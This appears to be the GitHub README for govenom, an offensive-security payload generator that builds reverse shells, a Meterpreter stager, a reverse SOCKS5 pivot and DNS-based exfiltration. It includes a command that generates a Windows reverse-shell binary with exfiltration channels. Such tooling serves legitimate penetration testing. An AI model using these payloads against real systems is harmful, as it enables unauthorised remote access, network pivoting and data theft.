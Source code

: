 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms. It is also much faster than `msfvenom`.

## Payloads

Currently, four payloads are supported:

- **rsh:** A simple reverse shell. It selects one of the most common
  shells binaries and makes it available via TCP or UDPconnection.
- **xrsh:** An extended robust reverse shell. A simple heuristic
  determines the most suitable shell executable, taking shells that
  are installed but not in `$PATH` into account. In contrast to most
  other available shells out there, additional info can be sent via
  alternative communication channels via the exfiltration mechanism
  (see relevant section below). For example, if no shell could be
  detected or the connection could not be established due to a
  firewall, the corresponding error can be exfiltrated via DNS.
- **stager**: A shellcode stager that is compatible with Metasploits
  `exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
  It first reads a 4 Byte shellcode length and then the shellcode
  itself from a TCP connection and executes it. Currently, this is
  only available for Windows targets.

- **socks5**: A `socks5` server via a reverse TCP connection. It
  connects back to the `gateway` tool and provides network access
  to the target's network. The `sockst5` server on the target
  system can only be accessed by connecting to the gateway listener
  opened by the govenom `gateway` tool.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

- **`stdout`/`stderr`:** If you can capture the output of your
  payload when it's executed, you can output debug logs via
  `stdout/stderr`.

- **DNS:** The most useful exfiltration type because noone blocks
  DNS. Messages are encoded and split into parts which can be put
  together again by the `govenom` tool `dnslogger` (see section
  below).

- **File:** Write the debug information into a file on the target
  system. This is for example useful if you can recover files via a
  local file inclusion vulnerability.

- **Net (`dial`):** Send the debug log via a TCP or UDP connection
  that's different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

- **dnslogger:** The `dnslogger` tool decodes and recombines messages
  that were exfiltrated via DNS.

- **pusher:** The `pusher` tool can serve and deliver `meterpreter`
  shellcode generated using `msfvenom` to the `govenom` stager payload.

- **gateway:** the gateway for the `sockst` payload. It waits for
  the payload to connect back and starts a lister which forwards
  connection to the payload's `socks5` server and thus acts as a
  gateway into the target's network.

## Building

`govenom` can be built in two ways. It either generate payloads
directly from the source code in the `./payloads` folder of this
repos or it can be built with the source code embedded such that
it works as a standalone binary. The binaries distributed with
releases are standalone binaries.

```bash
# build a govenom binary that uses the payload code
# directly from the repository
go build

# build a standalone govenom binary (see the standalone
# Makefile section for the commands to build on Windows)
make standalone
```

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
govenom payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
govenom tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## FAQ:

---

**The `govenom` integrity cannot be verified on macOS**

macOS adds a quarantine attribute to downloaded binaries
which you can remove with the following command:

```
xattr -d com.apple.quarantine ./govenom
```

---

## Plans

- Connection encryption
- Reverse shell listener like `ncat` with logging capabilities
- Linux support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.
